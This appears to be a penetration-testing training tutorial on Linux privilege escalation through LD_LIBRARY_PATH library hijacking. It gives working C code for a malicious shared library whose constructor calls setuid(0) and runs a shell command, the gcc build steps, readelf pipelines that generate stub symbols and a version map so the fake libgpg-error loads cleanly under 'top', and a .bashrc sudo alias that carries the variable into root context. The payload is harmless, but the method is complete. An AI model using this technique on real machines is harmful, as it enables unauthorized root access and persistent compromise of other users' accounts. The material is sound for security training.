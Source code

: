 ## LD_LIBRARY_PATH
Intended use cases for LD_LIBRARY_PATH include testing new library versions without modifying existing libraries or modifying the program's behavior temporarily for debugging purposes.

We'll exploit a victim user's application by creating a malicious library and then use _LD_LIBRARY_PATH_ to hijack the application's normal flow and execute our malicious code to escalate privileges.

We would want to insert a line in the user's .bashrc or .bash_profile to define the _LD_LIBRARY_PATH_ variable so it is set automatically when the user logs in.

As to counter the pass on of user environment variable to while using libraries as sudo, we can also add an alisa of "sudo" to "sudo -E" so as to bypass the _env_reset_ setting.

We start by creating a sample malicious shared library with c code as follows:
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> // for setuid/setgid

static void runmahpayload() __attribute__((constructor));

void runmahpayload() {
	setuid(0);
	setgid(0);
    printf("DLL HIJACKING IN PROGRESS \n");
    system("touch /tmp/haxso.txt");
}
```
The fourth line provides a function declaration for a constructor function called _runmahpayload_.
Constructor functions are run when the library is first initialized in order to set up code for the library to use. (By doing this, we're just letting the compiler know that a function of this name will be defined later.)
We are creating a constructor function so that our malicious code will run when our library is loaded. 
The original program will try to load the library, which will then run our constructor function, triggering our malicious payload.

we can now compile our shared library with:
```sh
gcc -Wall -fPIC -c -o hax.o hax.c

gcc -shared -o libhax.so hax.o
```


In the second command, we're again using gcc to compile.
However, this time we use the -shared parameter to tell gcc we're creating a shared library from our object file.
This produces a libhax.so shared library file.

We will be targeting the _top_ command, which is used to display processes in real time on a Linux system.
We'll run the [ldd](https://man7.org/linux/man-pages/man1/ldd.1.html) command in the target machine on the top program. This will give us information on which libraries are being loaded when top is being run.

![](../../../Screenshots/ldd-ubt.png)

The last library listed appears to be a library for error reporting called LibGPG-Error.
This is likely to be loaded by the application but not likely to be called unless the program encounters an error, therefore this shouldn't prevent normal use of the application and is thus a good target.

We set our environment variable for _LD_LIBRARY_PATH_ and rename our .so file to match the one we're hijacking.
```sh
export LD_LIBRARY_PATH=/home/offsec/ldlib/
cp libhax.so libgpg-error.so.0
```

Running the top program should now run our malicious library.
However, we run into an error.
The error message states that we're missing the symbol _gpgrt_lock_lock_ with a version of _GPG_ERROR_1.0_. The program has not yet run our library's constructor, but it's already giving an error that we're missing [symbols](https://en.wikipedia.org/wiki/Symbol_(programming))
This means that certain variables or functions that the program expects to find when loading the original library have not been defined in our malicious library.

To fix this, we start by checking what symbols exist in the original shared library with the [readelf](https://linux.die.net/man/1/readelf) utility.

The error message specifies that the symbol it's looking for is tagged with _GPG_ERROR_1.0_ We can infer that it's part of the library we're replacing (libgpg-error.so.0).
By using a combination of bash commands, we can parse out the information we need specifically and put it into a format that we can paste directly into our library source code file to define variables.
We use the following command:
```sh
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```

Here:
1. We call the readelf utility with the -s flag which gives a list of available symbols in the library.
2. We use the --wide flag to force it to include the untruncated names of the symbols and the full path to the original shared library.
3. We pipe the output to grep for lines containing the "FUNC" string representing symbols we need to capture.
4. We again pipe the output to grep "GPG_ERROR" string indicating they are stored in the library and not an unrelated dependency.
5. We pip the results to awk to capture only specific column of the the output and prepending "int" to it.
6. Finally, we pip the output to sed to replace the version information with a semicolon in order to finalize the variable definitions.

The result is a list of variable definitions, one for each missing symbol, that we can copy and paste just under our initial constructor definition in our hax.c source code file.

![](../../../Screenshots/reu-fs.png)

We simply copy/paste the output to our c program and compile it again into a shared library.
We get the desired output.

![](../../../Screenshots/t-mlce-em.png)

However, we get an error message about the shared library's version information.
It seems that _libgcrypt_ does require version information in associated libraries.

we can fix this with the help of a [map](https://www.gnu.org/software/gnulib/manual/html_node/LD-Version-Scripts.html) file that identifies particular symbols as being associated with a given version of the library.

We again run our previouse readelf command, but this time by omitting "int":
```sh
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```

This simply provides a list of symbols that we can then "wrap" into a symbol map file for the compiler to use. We'll call this file gpg.map.

Next, on the compilation part, we'll include the symbol file with --version-script.
```sh
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -Wl,--version-script gpg.map -o libgpg-error.so.0 hax.o
```
This time, we do not receive an error message.


## One Final Error
In case of LD_LIBRARY_PATH, the user's environment variables aren't passed to a sudo context even if sudo is being used.
Even if we use the "sudo -E" alias, they still would not be passed.

To Bypass this, we can edit our alias to include our _LD_LIBRARY_PATH_ variable explicitly.
We edit the .bashrc file and add the following at the end:
```sh
alias sudo="sudo LD_LIBRARY_PATH=/home/offsec/ldlib"
```

If we source the .bashrc file to load the changes we made, when we run the command with sudo, the command executes as _root_.
